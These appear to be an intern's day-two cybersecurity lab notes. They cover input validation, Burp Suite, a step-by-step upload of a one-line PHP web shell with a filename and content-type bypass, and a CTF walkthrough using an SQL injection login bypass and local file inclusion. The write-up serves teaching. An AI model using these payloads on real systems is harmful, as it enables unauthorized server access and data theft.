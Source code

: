 # 🧠 Day 2: Client-Side vs Server-Side Validation, Burp Suite, and CTF Walkthrough

## 📚 Topics Covered

### ✅ Client-Side vs Server-Side Validation

| **Aspect**           | **Client-Side Validation**                 | **Server-Side Validation**                     |
| -------------------- | ------------------------------------------ | ---------------------------------------------- |
| Performed On         | User’s browser                             | Web server                                     |
| Speed                | Faster (no server round trip)              | Slower (requires server communication)         |
| Security             | Less secure (can be bypassed by attackers) | More secure (cannot be easily bypassed)        |
| Example Technologies | JavaScript, HTML5 input types              | PHP, Python, Node.js, etc.                     |
| Purpose              | Improve UX, reduce server load             | Ensure data integrity and application security |

🔒 **Conclusion:** Always implement both types of validation. Never rely solely on client-side checks.

---

## 🛠️ Burp Suite Overview

**Burp Suite** is a powerful web vulnerability scanner and proxy tool used by ethical hackers and pentesters to:

- Intercept HTTP/HTTPS traffic between browser and server.
- Modify requests before they reach the server.
- Analyze headers, cookies, and form data.
- Perform automated scans and manual testing.

> 💡 **Definition:** Burp Suite acts as a **man-in-the-middle** proxy that captures and modifies HTTP requests/responses between your browser (frontend) and the server (backend).

### ⚔️ 3 Lines of Defense in Web Applications

1. **Source Code Formatting** – Modifying elements directly via browser dev tools.
2. **Header Analysis** – Viewing and editing request headers.
3. **Burp Suite Interception** – Full control of data flow using proxy.

If none of the above allow you to bypass validation, it is likely **server-side validated**.

> 🧠 **Note:** `.htaccess` or `.hea` files are often used to enforce server-side rules.

---

## 🔬 Lab: Upload PHP Web Shell Using Burp Suitre

### 🎯 Objective:

Exploit a vulnerable file upload feature to gain shell access to the server.

### 🧪 Steps Followed:

1. **Prepare a PHP File** disguised as a `.png`, like `shell.php.png`, containing: ```<?php system($_GET['cmd']); ?>```
2. Inspect the page, **modify the file input** accept attribute if needed.
3. Switch Burp Intercept **ON**.
4. **Upload the file** → Burp intercepts the request.
5. In Burp, change:  
        ```filename="shell.php.png"```  
       ```Content-Type: image/png```   
   to:   
        ```filename="shell.php"```  
       ``` Content-Type: application/x-php```  
6. **Forward the request** → Server accepts it.
7. **Access the file** via URL (e.g., ```/uploads/shell.php```) and use ```?cmd=ls```.
![Burp suite malware attack](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/burp2.jpg)
### 🔍 Wappalyzer Extension
Wappalyzer is a browser extension used to identify backend and frontend tech stack such as:

- Languages (PHP, Python, Ruby)
-  Web servers (Apache, Nginx)
- Frameworks (Laravel, Django)
- CMS (WordPress, Joomla)

> 💡 **Note**:You can also analyze backend headers via Burp Repeater or server error messages.
---

### 🕹️ CTF Walkthrough
The CTF involved exploiting 3 vulnerabilities:

1️⃣ **SQL Injection (Authentication Bypass)**

    Used SQLi payload on login page:
    Username: admin'--
    Password: (blank)
    This bypasses login logic and logs you in as admin.

![SQL_ctf](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf4.jpg)

2️⃣ **Security Misconfiguration**

    Inspecting HTML revealed hardcoded credentials:
    <!-- Admin Username: administrator -->
    <!-- Admin Password: AdminPass2024 -->
    <!-- Admin URL: /admin -->  
    Used them to login into admin panel.

![SQL_ctf](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf3.jpg)
3️⃣ **LFI Attack (Local File Inclusion)**

    Input field in admin panel was vulnerable:
    ?q=flag.txt
    Retrieved flag from flag.txt

![SQL_ctf](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf1.jpg)
🏁 **Final Flag:**
```CTF{sql_injection_and_lfi_chain_complete}```

![SQL_ctf]([https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf1.jpg](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf2.jpg))


		




